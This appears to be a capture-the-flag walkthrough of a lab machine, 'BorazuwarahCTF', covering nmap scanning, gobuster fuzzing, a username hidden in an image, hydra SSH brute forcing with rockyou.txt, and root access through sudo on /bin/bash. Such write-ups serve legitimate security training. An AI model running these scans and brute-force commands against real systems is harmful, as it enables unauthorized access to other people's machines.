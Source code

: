 # BorazuwarahCTF
![image](https://github.com/user-attachments/assets/30562465-cc76-411d-9c42-d8cf6859c980)

## Recognition and Enumeration.

Check that the machine is running.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once we get a ping response, we can start enumerating the machine. The ttl=64 can tell us that it is a **Linux** machine.

We launch nmap to see what ports it finds.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet forwarding rate to 5000 per second.
- `-vvv`: Generates very verbose and detailed output.
- `-n`: Prevents reverse DNS resolution.
- `-Pn`: Skips host discovery.
- `-oG allPorts`: Saves results to a file named "allPorts".
- `172.17.0.2`: The IP address of the target host.
```
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 64
80/tcp open http syn-ack ttl 64
```
Since we have port 22 and 80 open, we are going to check the version and run some basic scripts to see what information we get.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Scan for versions and vulnerabilities.
- `-p22,80`: Scan for ports.
- `-vvv`: Very detailed and verbose output.
- `-oN versionPorts`: Save the results in "versionPorts".
- `172.17.0.2`: IP address of the scanned host.
```
```
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDuOdJLZN+CNU+7dcTJQbPr6zY2+Ou1YFR0w9Pan1DfaPUZljRHJcNmvSncrihzQ3HOAHfMWWvSzN+ZMC0YmWoA=
| 256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGDv2JqKvBCR+Badmkr7YKPypEYshuCXxzM5+YdozyBD
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
We use **gobuster** to fuzz and see if we find directories or pages on port 80.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
We only find ***index.html*** in which we only see an image that we proceed to download to see if we find something hidden inside.

![image](https://github.com/user-attachments/assets/0e4abfa4-931c-40b0-800f-7d2921f4f966)

We see that inside the image we find a user **borazuwarah** that we can use to connect via ***ssh*** by brute force with **hydra**.

## Exploitation.

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/d8d5ad7e-5e8c-4f21-8be9-3631844b1349)

Now we connect via **ssh** with the credentials obtained.

![image](https://github.com/user-attachments/assets/481a1e42-2d48-4fe3-b56f-4b320d8b4942)

## Privilege escalation.

We check if there is any binary that we can exploit and we find that we can run as **root** a **/bin/bash**.

![image](https://github.com/user-attachments/assets/65af5a3f-6ad7-4ca0-bc70-fdcf3049cd2a)

```
sudo -u root /bin/bash
```
![image](https://github.com/user-attachments/assets/84a75270-1f2a-4748-8eb0-6f194110f104)
